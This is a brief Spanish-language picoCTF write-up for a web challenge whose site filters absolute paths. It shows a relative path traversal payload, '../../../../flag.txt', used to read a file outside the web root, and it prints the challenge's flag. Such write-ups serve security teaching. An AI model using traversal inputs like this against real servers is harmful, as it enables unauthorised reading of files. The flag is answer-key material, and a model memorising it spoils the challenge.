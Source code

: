 


## Objetivo
Can you get the flag?Here's the [website](http://saturn.picoctf.net:64403/).We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. Can you get past the filter to read the flag?
## Solución
Usamos un path relativo empezando de /usr/share/nginx/html/ hasta llegar a /flag.txt
../../../../flag.txt
picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}
## Notas adicionales

## Referencias
